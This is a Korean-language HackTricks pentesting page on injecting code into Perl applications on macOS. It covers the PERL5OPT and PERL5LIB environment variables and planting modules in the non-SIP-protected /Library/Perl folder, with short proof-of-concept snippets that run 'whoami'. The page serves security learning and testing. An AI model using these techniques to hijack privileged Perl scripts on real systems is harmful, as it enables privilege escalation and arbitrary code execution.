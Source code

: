 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## `PERL5OPT` 및 `PERL5LIB` 환경 변수를 통한 방법

환경 변수 PERL5OPT를 사용하면 perl이 임의의 명령을 실행하도록 할 수 있습니다.\
예를 들어, 이 스크립트를 생성합니다:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
이제 **환경 변수를 내보내고** **perl** 스크립트를 실행합니다:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
또 다른 옵션은 Perl 모듈을 만드는 것입니다 (예: `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
그리고 env 변수를 사용하세요:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```
## Via dependencies

Perl 실행의 의존성 폴더 순서를 나열할 수 있습니다:
```bash
perl -e 'print join("\n", @INC)'
```
다음과 같은 결과를 반환합니다:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
반환된 폴더 중 일부는 존재하지 않지만, **`/Library/Perl/5.30`**는 **존재**하며, **SIP**에 의해 **보호되지** 않고 **SIP**에 의해 **보호되는** 폴더보다 **앞에** 있습니다. 따라서 누군가 그 폴더를 악용하여 스크립트 종속성을 추가할 수 있으며, 그러면 높은 권한의 Perl 스크립트가 이를 로드할 것입니다.

> [!WARNING]
> 그러나, 그 폴더에 쓰기 위해서는 **root 권한이 필요**하며, 요즘에는 이 **TCC 프롬프트**가 표시됩니다:

<figure><img src="../../../images/image (28).png" alt="" width="244"><figcaption></figcaption></figure>

예를 들어, 스크립트가 **`use File::Basename;`**를 가져오고 있다면, `/Library/Perl/5.30/File/Basename.pm`을 생성하여 임의의 코드를 실행할 수 있습니다.

## References

- [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)

{{#include ../../../banners/hacktricks-training.md}}
